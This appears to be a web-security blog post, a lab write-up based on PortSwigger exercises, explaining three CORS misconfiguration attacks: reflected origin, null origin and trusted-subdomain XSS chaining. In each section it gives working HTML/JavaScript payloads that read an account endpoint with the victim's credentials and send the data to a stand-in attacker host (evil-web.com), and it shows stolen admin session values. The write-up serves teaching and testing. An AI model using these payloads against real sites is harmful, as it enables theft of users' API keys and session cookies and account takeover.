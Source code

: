 ```yaml
---
layout: post
title:  "Insecure CORS Policy"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/170120828-3edcc859-fc45-42c3-9fe7-a8cd8b20f682.png
beforetoc: ""
toc: false
tags: [ Web Security, Payloads ]
---
```

- Cross-Origin Resource Sharing (CORS) is a browser mechanism that allows controlled access to resources outside a given domain.
- It extends and adds flexibility to the same-origin policy (SOP).
- However, it also offers the potential for cross-domain attacks if a website's CORS policy is poorly configured and implemented.

# Table of Contents
1. [CORS with Origin base mirrored](#CORSvulnOriginmirrored)
2. [Origin only allows null origins](#Originallowsnullorigins)
3. [CORS with insecure reliable protocols](#CORSinsecurereliableprotocols)

---
#### 1- CORS vuln with Origin base mirrored <a name="CORSvulnOriginmirrored"></a>
We can see the result of the data in the response. 

![CORSBASIC1](https://user-images.githubusercontent.com/47476901/170133516-05d66e42-aae7-425d-a359-590e27bab824.png)

And the customized origin is reflected, which tells us that it is vulnerable.

`Origin: http://web-testing.com` ✔

![CORSBASIC2](https://user-images.githubusercontent.com/47476901/170130161-41f34362-0e9b-41f3-a551-84ec272c8ea0.png)

We create a custom html so that this data is sent to our malicious page to steal this data.

![CORSBASIC-webmaliciosa](https://user-images.githubusercontent.com/47476901/170120906-757459e0-d8c5-46dc-afab-980136ef0bbe.png)


- Malicious web HTML: 

```html
<html>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://web.com/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://evil-web.com/log?key='+this.responseText;
};
</script>
</html>
```

When the user visits our site it will send the data from that endpoint to our site where it can be seen in the logs of our server.

![CORSBASIC-LOGS](https://user-images.githubusercontent.com/47476901/170130571-b84a03fb-03d3-45ae-ac51-9d6232ff2a33.png)

---

#### 2- Origin only allows null origins <a name="Originallowsnullorigins"></a>
When we modify the Origin it is not reflected in the request.

`Origin: http://web-testing.com` ❌

![CORS-NULL-nullisnotreflected](https://user-images.githubusercontent.com/47476901/170138954-83fb9cda-5285-4061-a8f0-b62b1b7b44ff.png)

We can see that the website only allows Origins that are null.

`Origin: null` ✔

![CORS-NULL-nullisreflected](https://user-images.githubusercontent.com/47476901/170138804-60f28985-7eda-48de-8ef9-c112cabd66d6.png)


- An attacker can use several tricks to generate a cross-origin request containing the `NULL` value in the Origin header.
- This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using an `iframe` cross-origin request in isolated form space:

- Malicious HTML web: 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener; 
        req.open('get','https://web.com/accountDetails',true); 
        req.withCredentials = true;
        req.send();
		function reqListener() {
		location='https://evil-web.com/log?key='+this.responseText; }; 
    </script>
">
</iframe>
```
With the `location` we are indicating that this response that has the sensitive data is sent as parameters to the attacker's page.
This is the request that the victim user makes from behind when visiting our page.

1- Visit the attacker page and execute the javascript script we have created.

![CORS-NULL-1](https://user-images.githubusercontent.com/47476901/170137775-751b38de-66ea-4e9d-b25b-4270dff06ca3.png)


2- When it reads the location it sends the data

![CORS-NULL-2](https://user-images.githubusercontent.com/47476901/170121090-d15e2f6c-c45e-4e17-888e-f4b58605e167.png)

3- When the user visits our page it will send the data of that endpoint to our page where it can be seen in the logs of our server.
Server logs:

![CORS-NULL-3](https://user-images.githubusercontent.com/47476901/170134706-1013416d-639c-456e-8f71-fce0e65e0744.png)


Url Decode: 
We have:
User, email, apikey and the session (The cookie that is linked to the user).

![CORS-NULL-urldecode](https://user-images.githubusercontent.com/47476901/170134233-30ef7f41-ec13-415a-beeb-40ac5edbaf71.png)

**Filtering administrator data**

Now imagine that the administrator visits our page, we get his data and in that data is included the session cookie that we can use to enter your session
Server logs: 

![CORS-NULL-admin1](https://user-images.githubusercontent.com/47476901/170134825-d9b51872-9f82-49e6-99e1-b5514ab295f8.png)

Url Decode: 

![CORS-NULL-admin2](https://user-images.githubusercontent.com/47476901/170121205-6b456e81-74be-4d67-8422-cde3949111f7.png)

We already have the administrator session

`Admin Session: F1BVIVSoQvTaB8i6HJ25gxtJdvJKweuz`

![CORS-NULL-admin3](https://user-images.githubusercontent.com/47476901/170131836-e1b19346-e368-4f66-b6c3-67a6d13005bc.png)


#### 3- CORS with insecure reliable protocols <a name="CORSinsecurereliableprotocols"></a>

The website only trusts domains that belong to it, i.e. its subdomains.

We do a test with our site in the origin and we get no reflection.

`Origin: http://web-testing.com` ❌

![CORS-SUBDOMAIN1](https://user-images.githubusercontent.com/47476901/170138565-28a77954-350d-4730-bf5a-14b47debfcb9.png)

We tried with a subdomain and it is reflected.

`Origin: http://subdomain.web.com` ✔

![CORS-SUBDOMAIN2](https://user-images.githubusercontent.com/47476901/170134037-257d9b15-b86c-43a4-884c-4ae98a1333a1.png)


We found a valid subdomain

![CORS-SUBDOMAIN3](https://user-images.githubusercontent.com/47476901/170121326-6bf2936e-ecee-4043-b83d-64473fe62467.png)

This subdomain is vulnerable to XSS reflected in the productId parameters, this will help us to execute our script since the page only trusts its subdomains.

**XSS in subdomain**

![CORS-SUBDOMAIN-XSS](https://user-images.githubusercontent.com/47476901/170121381-2735c975-9520-407e-a8b7-626497e0f292.png)

We exploit this vulnerability to exploit cross-domain trust to exfiltrate data to our server.

**Our malicious web**
- HTML malicious web: 

```html
<html>
<script>
document.location="http://subdomain.web.com/?search=<script>var req = new XMLHttpRequest(); req.onload = reqListener;req.open('get','https://web.com/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://evil-web.com/log?key='%2b%this.responseText; };%3c/script>"
</script>
</html>
```

When the victim user visits our page he will execute the XSS of the subdomain containing the script that makes a request to the page vulnerable to cors by domain trust and the response of that request is sent to the logs of our server.

1- The user visits our malicious page which contains the main script

![CORS-SUBDOMAIN-FINAL1](https://user-images.githubusercontent.com/47476901/170137871-5a4914d8-0ba0-48a7-9b83-67ca6312bd11.png)

2- The javascript is executed and sends the user to the subdomain and executes xss 

![CORS-SUBDOMAIN-FINAL2](https://user-images.githubusercontent.com/47476901/170138239-bf2dfdf4-9c8b-4f7b-a47a-81aa0a0959aa.png)

3- As the script comes from a trusted domain configured by the cors of the final page, it is executed on the page vulnerable to CORS.

![CORS-SUBDOMAIN-FINAL3](https://user-images.githubusercontent.com/47476901/170138424-4ce4f7e3-1694-4b41-b7fc-f0da7741166d.png)

4- As it was malicious, the response was sent to the attacker's server with all the sensitive data.
Finally the data is sent to the malicious page as we can see with this intercepted request.

![CORS-SUBDOMAIN-FINAL4](https://user-images.githubusercontent.com/47476901/170129209-b81714b9-f65d-49e0-9f39-6eba73ec5fba.png)

5- These data are saved in the logs of our page as an attacker.
In which in this case are sent username, email, apikey and session cookie. 

![CORS-SUBDOMAIN-FINAL5](https://user-images.githubusercontent.com/47476901/170136436-fa4814e9-91a4-49d3-8ddd-41df7230c0d0.png)


6- In the most extreme case as we have explained before, if an administrator visits our page we will have his session cookie.

![CORS-SUBDOMAIN-FINAL6](https://user-images.githubusercontent.com/47476901/170136520-229b7aeb-10d7-4d00-a586-0982f23677ce.png)


7- Using the administrator's session cookie

`Admin Session: clljARot4Lc4KkFHfIylENGZmZbzYwD7`

![CORS-SUBDOMAIN-FINAL7](https://user-images.githubusercontent.com/47476901/170133118-797300b9-4428-467c-a961-80087da6f186.png)


### Conclusion
- This always depends on the response to the endpoint that we point.
- In this example the user's session cookie or email was sent, but this is a particular case because the webs are very different from each other, as the above point says, it all depends on the response of the endpoint. 
- Understand what trust relationships are handled in CORS policies because there may be a CORS vulnerability but it does not have to be offensive. Like everything else, it depends on the context.

- Source Labs: [Portswigger Labs](https://portswigger.net/web-security)
- Credits Image: [Portswigger](https://portswigger.net/web-security)
